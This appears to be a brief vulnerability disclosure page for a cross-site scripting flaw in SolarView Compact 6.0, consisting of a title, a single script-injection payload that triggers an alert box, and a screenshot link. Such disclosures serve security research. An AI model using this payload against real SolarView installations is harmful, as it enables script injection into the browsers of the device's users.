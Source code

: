 # SolarView_Compact_6.0_xss

### payload
"><script>alert("XSS")</script>
![image](https://user-images.githubusercontent.com/72059221/169168747-55426da3-9150-4266-b4e3-b0bcfbbdd410.png)
